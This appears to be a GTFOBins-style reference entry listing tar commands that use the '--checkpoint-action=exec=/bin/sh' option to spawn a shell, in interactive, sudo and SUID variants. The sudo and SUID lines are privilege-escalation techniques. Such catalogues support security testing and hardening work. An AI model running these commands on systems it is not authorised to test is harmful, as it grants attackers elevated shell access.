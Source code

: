 ```yaml
---
functions:
  exec-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="/bin/sh"
---
```

